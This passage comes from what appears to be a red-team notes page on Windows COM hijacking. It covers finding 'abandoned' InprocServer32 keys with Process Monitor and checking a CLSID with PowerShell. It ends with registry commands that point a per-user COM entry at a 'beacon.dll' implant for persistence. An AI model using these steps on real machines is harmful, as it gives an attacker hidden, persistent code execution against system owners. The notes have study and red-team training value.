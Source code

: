 So if a COM Object is located within `HKLM`, we can place a duplicate entry into `HKCU` which will be executed first.

> **Note**: `BE CAREFUL` we can break the functionlity of an application or maybe the whole OS.

### Abandoned Keys

Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications that are trying to load objects that don't actually exist, it's called `abandoned keys`.

We are going to use Process Monitor `procmon64.exe` of SysInternals. Due to the high amount of that will be captured, we need to apply a filter.

![](/hackingnotes/images/procmon.png)


Add the following filters and disable the current ones:

* Operation is `RegOpenKey`
* Result is `NAME NOT FOUND`
* Path ends with `InprocServer32`

![](/hackingnotes/images/procmon-results.png)


> **Note**: Use one that is loaded semi-frequently, hijack one that is loaded every couple of seconds would be noisy and rough.


We can use powershell to check that the entry does exist in `HKLM`, but not in `HKCU`.

```
PS C:\> Get-Item -Path "HKLM:Software\Classes\WOW6432Node\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\WINDOWS\system32\wbem\wbemprox.dll
                               ThreadingModel : Both


PS C:\> Get-Item -Path "HKCU:Software\Classes\WOW6432Node\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"
Get-Item : Cannot find path
'HKCU:\Software\Classes\WOW6432Node\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32' porque no existe.
```

In order to exploit this, we need to create the necessary registry entries in `HKCU` and point them to our Beacon DLL.

```
New-Iten -Path "HKCU:Software\Classes\WOW6432Node\CLSID" -Name "{4590F811-1D3A-11D0-891F-00AA004B2E24}"
New-Item -Path "HKCU:Software\Classes\WOW6432Node\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}" -Name "InprocServer32" -Value "C:\Windows\Temp\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\WOW6432Node\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
